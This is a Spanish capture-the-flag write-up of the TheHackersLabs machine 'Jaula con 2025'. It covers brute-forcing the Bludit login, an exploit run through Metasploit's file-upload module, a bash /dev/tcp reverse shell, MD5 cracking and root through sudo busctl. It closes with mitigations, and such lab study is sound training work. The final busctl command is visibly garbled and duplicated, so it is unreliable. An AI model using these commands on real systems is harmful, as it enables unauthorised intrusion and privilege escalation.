## Información General

|Campo|Valor|
|---|---|
|Máquina|Jaula con 2025|
|Plataforma|TheHackersLabs|
|Dificultad|(completar)|
|IP|192.168.241.202|
|Sistema operativo|Linux (Debian 12)|
|Dominio añadido|jaulacon2025.thl|
|Fecha|06/11/2026|
|Autor|elc0ket|

---
## Resumen del Ataque

La máquina expone un CMS Bludit en el puerto 80. Tras descubrir el panel de administración y el dominio virtual, se obtuvo acceso al login mediante fuerza bruta con un exploit de searchsploit. Con esas credenciales se explotó la subida de imágenes de Bludit (Metasploit) para conseguir una shell como `www-data`. Desde ahí se extrajo un hash de `users.php`, que dio acceso como el usuario `JaulaCon2025`. Por último, se escaló a root abusando de un permiso `sudo` NOPASSWD sobre `/usr/bin/busctl`.

---
## Técnicas Usadas

- Escaneo de puertos y enumeración de servicios (Nmap)
- Descubrimiento de contenido web (Gobuster)
- Fuerza bruta contra el login de Bludit (exploit 48746 de searchsploit)
- Explotación de subida de ficheros en Bludit 3.9.x (Metasploit: `bludit_upload_images_exec`)
- Reverse shell y estabilización de TTY
- Crackeo de hash MD5 (CrackStation)
- Escalada de privilegios mediante `sudo` con `busctl` (inspirado en GTFOBins)

---
## Desarrollo

1. Escaneo de puertos

```
sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn -oN port 192.168.241.202
```



2. Enumeración de servicios

```
nmap -p 22,80 -sC -sV -oN allport 192.168.241.202
```



3. Resolución de dominio virtual

Al visitar `http://192.168.241.202/` se revisó el código fuente, donde aparece una URL canónica con un dominio concreto:



Se añadió el dominio a `/etc/hosts` para poder resolverlo:

```
192.168.241.202    jaulacon2025.thl
```



4. Descubrimiento de directorios

```
gobuster dir -u http://jaulacon2025.thl/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,md,txt -t 125 
```



Se localizó el panel de administración.

```
http://jaulacon2025.thl/admin/
```



5. Fuerza bruta al login de Bludit

```
searchsploit bludit
searchsploit -m 48746.rb
```

```
ruby 48746.rb -r http://jaulacon2025.thl/admin/ -u Jaulacon2025 -w /usr/share/wordlists/rockyou.txt
```



Se probaron las credenciales encontradas en el panel.

Acceso confirmado al panel de administración de Bludit.



6. Explotación con Metasploit

```
msfconsole -q
```

```
msf6 > search bludit 3.9
```



```
msf6 > use 0
````

```
msf6 exploit(linux/http/bludit_upload_images_exec) > options
```

```
msf6 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER Jaulacon2025
```

```
msf6 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS cassandra
```

```
msf6 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS set RHOSTS 192.168.241.202
```

```
msf6 exploit(linux/http/bludit_upload_images_exec) > exploit
```

Una vez dentro de la sesión de Meterpreter, se abrió una shell del sistema:

```
meterpreter > shell
```

7. Reverse shell como www-data

En la máquina atacante:

```
nc -lvnp 1234
```

Desde la sesión:

```
bash -c 'exec bash -i &>/dev/tcp/192.168.241.130/1234 <&1'
```



Estabilización de la TTY:

```
script /dev/null -c bash
ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

8. Enumeración del directorio de Bludit

```
www-data@JaulaCon2025:/var/www/html/bl-content/tmp$ cd ..
www-data@JaulaCon2025:/var/www/html/bl-content$ ls -la
```



```
www-data@JaulaCon2025:/var/www/html/bl-content$ cd databases/
```

```
www-data@JaulaCon2025:/var/www/html/bl-content/databases$ ls -la
````



9. Extracción del hash de usuario

```
www-data@JaulaCon2025:/var/www/html/bl-content/databases$ cat users.php
```



El hash MD5 se envió a CrackStation https://crackstation.net/. 



Con la contraseña obtenida se accedió al usuario `JaulaCon2025` por SSH.

```
ssh JaulaCon2025@192.168.241.202
```

```
JaulaCon2025@JaulaCon2025:~$ cat user.txt 
```



10. Escalada a root

```
JaulaCon2025@JaulaCon2025:~$ sudo -l
```



`busctl` permite ejecutar comandos a través de su opción `--address=unixexec`. Con `set-property` sobre systemd se puede forzar un cambio de configuración que lanza una shell como root. Las notas originales tenían el comando mezclado con otro texto, así que lo reconstruyo aquí:

```
JaulaCon2025@JaulaCon202set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'gv2='/bin/sh -i 0<&2 1>&2'
```

```
# whoami
```



```
# cd /root
# cat root.txt
```



---
## Lecciones Aprendidas

- Un panel de administración con contraseña débil es suficiente para comprometer todo el CMS. Rockyou resolvió el acceso en pocos intentos.
- Una versión sin parchear de Bludit con subida de ficheros expone ejecución de código aunque tengas credenciales válidas.
- Las filtraciones de información en el código fuente (la URL canónica) permitieron descubrir el dominio virtual.
- Guardar hashes MD5 con un salt trivial (`jejej`) hace que el crackeo sea inmediato.
- Un `sudo NOPASSWD` sobre binarios con capacidad de ejecutar comandos (como `busctl`) equivale a root.

---
## Medidas de Mitigación

- Usar contraseñas robustas y únicas para el panel de administración, y aplicar bloqueo tras intentos fallidos o autenticación multifactor.
- Mantener Bludit y sus plugins actualizados, y restringir la subida de ficheros por tipo y ubicación.
- No exponer el panel de administración a Internet, o limitarlo por IP.
- Almacenar contraseñas con algoritmos de hash modernos y salts aleatorios (bcrypt, Argon2 o similares).
- Eliminar permisos `sudo` sobre binarios que permiten ejecutar comandos arbitrarios, siguiendo el principio de mínimo privilegio.
- No dejar ficheros de datos con credenciales dentro del directorio accesible por el servidor web.


